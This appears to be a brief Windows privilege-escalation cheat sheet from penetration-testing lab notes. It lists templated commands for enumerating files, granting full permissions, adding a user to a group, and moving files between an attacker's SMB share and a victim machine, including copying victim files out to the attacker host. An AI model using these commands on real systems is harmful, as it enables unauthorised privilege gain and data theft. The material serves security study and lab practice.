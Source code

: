 # folder enumeration

```cmd
dir <file*> /S /B
```

# set full permission

```cmd
CACLS file_path /e /p <user>:F
```

# add user to group

```cmd
net localgroup <group> <user> /add
```

# move files from attacker to victim via smb share

```cmd
copy \\<lhost>\kali\<some-file> C:\PrivEsc\<some-file>
```

# move files from victiom to attacker via smb share

```cmd
copy C:\PrivEsc\<some-file> \\<lhost>\kali\<some-file>
```
